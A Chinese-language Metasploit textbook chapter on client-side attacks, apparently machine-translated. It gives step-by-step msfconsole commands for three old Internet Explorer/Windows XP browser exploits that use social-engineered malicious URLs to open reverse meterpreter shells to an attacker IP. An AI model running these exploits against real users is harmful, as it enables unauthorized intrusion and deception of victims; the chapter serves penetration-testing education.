# 第 6 章客户端开发

在上一章中，我们完成了漏洞扫描和信息收集阶段。在本章中，我们将讨论我们可能会以各种方式向受害者（客户）妥协。我们将介绍各种技术，例如引诱受害者点击 URL 或图标，这最终会给我们一个反向 shell。

# 什么是客户端攻击？

在前面几章中，我们已经掌握了一些利用漏洞的基本知识，现在我们继续讨论客户端攻击。但要理解客户端攻击，我们首先需要对客户端-服务器体系结构有清晰的概念，并区分这两个组件之间的攻击。服务器是通过网络共享其资源的主计算机，而作为网络上其他计算机的客户端使用这些资源。每个故事都有消极的一面。因此，当服务器向客户端提供服务时，它还可能暴露可能被利用的漏洞。现在，当攻击者攻击服务器时，他可能会对服务器进行拒绝服务攻击，这将最终使其所有服务崩溃。具体来说，这是一种服务器端攻击，因为我们实际上试图攻击服务器，而不是任何客户端。

客户端攻击仅限于客户端，目标是可能在该特定计算机上运行的易受攻击的服务和程序。如今，这一趋势正在发生变化，它更加关注客户端攻击，而不是服务器端攻击。根据一种普遍趋势，服务器通常被锁定，只有最少的服务和受限的访问。这使得攻击服务器变得非常困难，因此黑帽子被引诱到易受攻击的客户端。可能针对客户端发起大量攻击，例如基于浏览器的攻击和易受攻击的服务攻击。此外，客户端操作系统具有多个应用程序，如 PDF 阅读器、文档阅读器和即时通讯器。通常不会更新或修补这些安全漏洞，因为它们被视为安全配置错误而被忽略。因此，使用简单的社会工程技术对这些易受攻击的系统进行攻击是非常容易的。

## 浏览器漏洞

浏览器漏洞早已为人所知。框架和扩展有时也是开发的原因。最近有消息称，Chromium、InternetExplorer 和 Mozilla 等浏览器的一些最新版本遭到了破坏。恶意代码可能利用浏览器内置的任何形式的 ActiveX、Java 和 Flash 来增强用户体验。受到此类攻击影响的受害者可能会发现他们的主页、搜索页面、收藏夹和书签发生了更改。在某些情况下，可能会更改设置或 Internet 选项以降低浏览器安全级别，从而使恶意软件更加普遍。

### 教程

在教程部分，我们将向您展示几个通过受害者浏览器运行的漏洞。

我们将展示的第一个漏洞称为浏览器自动关闭。首先打开终端并启动`msfconsole`。现在输入`use auxiliary/server/browser autopwn`。

然后输入`show options`详细查看我们必须在漏洞利用中设置的所有选项。



在上图中，我们可以看到哪些选项是必需的，哪些不在**必需的**列中。**是**表示我们必须设置该选项，**否**表示该选项可以与其默认设置一起使用。因此需要的第一个选项是`LHOST`。反向连接需要 IP 地址，因此我们在这里设置攻击者的机器 IP。为此，请键入`set LHOST 192.168.11.23`。

设置`LHOST`地址后，下一步要设置的是`SRVHOST`。`SRVHOST`表示服务器本地主机地址。我们通过输入`set SRVHOST 192.168.11.23`来设置本地机器地址。

现在，为了设置和`SRVPORT`，也就是本地端口地址，我们输入`set SRVPORT 80`。

所有设置都已完成。现在是运行辅助模块的时候了；所以输入`run`。

在运行辅助模块之后，我们可以看到它在本地主机上启动了漏洞利用模块。此外，它提供了一个恶意 URL，我们必须将其提供给受害者。这是一种简单的社会工程技术，用户被引诱点击恶意 URL。

现在，当 URL 在受害者的系统中打开时，它将向攻击者的系统发送反向连接。让我们看看这是怎么回事。

运行 URL 后，我们可以在`msfconsole`中看到反向连接已经建立，`notepad.exe`流程迁移到 1804。



我们可以通过任务管理器在受害者的系统中看到迁移的进程。

要检查已创建的`meterpreter`会话，请键入`sessions`。



现在选择`meterpreter`会话以利用受害者的系统。选择会话时使用的命令为`sessions –i <Id>`；例如，这里我们使用的是`sessions –i 1`。



选择会话后，我们立即获得`meterpreter`会话。然后我们可以进行进一步的开发。例如，在上图中，我们可以看到用于检查系统信息的`sysinfo`命令。

## 利用 Internet Explorer 快捷方式图标进行攻击

我们将要演示的另一个浏览器漏洞是包含恶意 DLL 的快捷方式图标。此漏洞是一种在 Windows XP 下运行在 IE 6 上的社会工程攻击。我们只需要引诱受害者点击链接在他的系统上运行漏洞攻击。启动`msfconsole`并输入`use windows/browser/ms10_046_shortcut_icon_dllloader`。



现在输入`show options`以详细查看我们必须在漏洞利用中设置的所有选项。



需要的第一个选项是`SRVHOST`。反向连接需要 IP 地址，所以这里我们通过键入`set SRVHOST 192.168.0.109`来设置攻击者的机器 IP。

现在输入`set SRVPORT 80`设置地址，即本地端口地址。

下一个选项是通过输入`set URIPATH /`将`URIPATH`路径设置为默认设置。

现在，所有选项都已设置并准备好运行漏洞利用。所以输入`exploit`。

现在该由你来做一些聪明的社会工程了。将 URL 提供给受害者，然后等待反向连接。



在浏览器中打开 URL 将创建快捷方式图标和 DLL 文件。当时，在`msfconsole`中创建了一个`meterpreter`会话，我们的受害者已经被泄露。现在让我们通过输入`sessions`来检查会话。



我们可以在这里看到一个会话已经创建。现在我们选择`meterpreter`会话来利用受害者的系统。选择会话时，使用的命令为`sessions –i <Id>`；例如，这里我们使用的是`sessions –i 1`。

选择会话后，我们成功接收到`meterpreter`；然后，我们可以进一步开发客户端系统。

## Internet Explorer 恶意 VBScript 代码执行漏洞

我们有另一个有趣的漏洞，与我们之前的漏洞类似，使用相同的条件和软件版本。这一次，我们将向您展示当网页上出现恶意 VBScript 生成的消息框后，受害者按下*F1*按钮时出现的代码执行漏洞。

要使用此漏洞，请启动`msfconsole`并键入`use exploit/windows/browser/ms10_022_ie_vbscript_winhlp32`。

现在输入`show options`查看漏洞利用中必须设置的所有选项。

需要的第一个选项是`SRVHOST`。反向连接需要 IP 地址，因此我们设置了攻击者的机器 IP。例如，我们在这里输入`set SRVHOST 192.168.0.105`。

现在我们通过输入`set SRVPORT 80`来设置`SRVPORT`号。



下一个选项是通过输入`set URIPATH /`将`URIPATH`路径设置为默认设置。



现在，所有选项都已设置并准备好运行漏洞攻击，请键入`exploit`。

接下来，我们只需要使用一些社会工程技能，让受害者点击 URL。我们将 URL 提供给受害者，让他点击。在 Internet Explorer 中打开 URL 后，会弹出一个消息框，显示一条消息，**欢迎！按 F1 键关闭此对话框。**

按下*F1*后，恶意 VBScript 将在浏览器中运行并发送名为`calc.exe`的负载。



在执行`.exe`文件后，将与攻击者机器建立反向连接并创建`meterpreter`会话。输入`sessions`检查可用会话。



我们可以在这里看到已经创建了一个会话。现在选择`meterpreter`会话以利用受害者的系统。对于选择会话，我们使用命令`sessions –i <Id>`；例如，这里我们使用的是`sessions –i 1`。

选择会话后，成功接收`meterpreter`；然后我们可以进一步利用受害者的机器。

# 总结

在本章中，我们成功地演示了一些利基客户端开发。这些漏洞攻击通过浏览器或恶意链接以及一些社会工程技巧专门针对客户端系统。安全手册中的一条金科玉律是永远不要点击未知链接，在我们的案例中，我们能够通过受害者的防御。这是 Metasploit 最好的部分，攻击向量的数组非常大，如果有什么东西不起作用，肯定会有另一个。因此，建议大家避免点击链接、运行未知的可执行文件以及回复恶意用户的电子邮件。下一章将介绍一些关于后期开发的技术，请继续关注；我们还有很多利用漏洞的技巧需要学习。

# 参考文献

以下是一些有用的参考资料，进一步阐明了本章所涵盖的一些主题：

*   [http://blog.botrevolt.com/what-are-client-side-attacks/](http://blog.botrevolt.com/what-are-client-side-attacks/)
*   [http://en.wikipedia.org/wiki/Browser_exploit](http://en.wikipedia.org/wiki/Browser_exploit)
*   [http://www.securitytube.net/video/2697](http://www.securitytube.net/video/2697)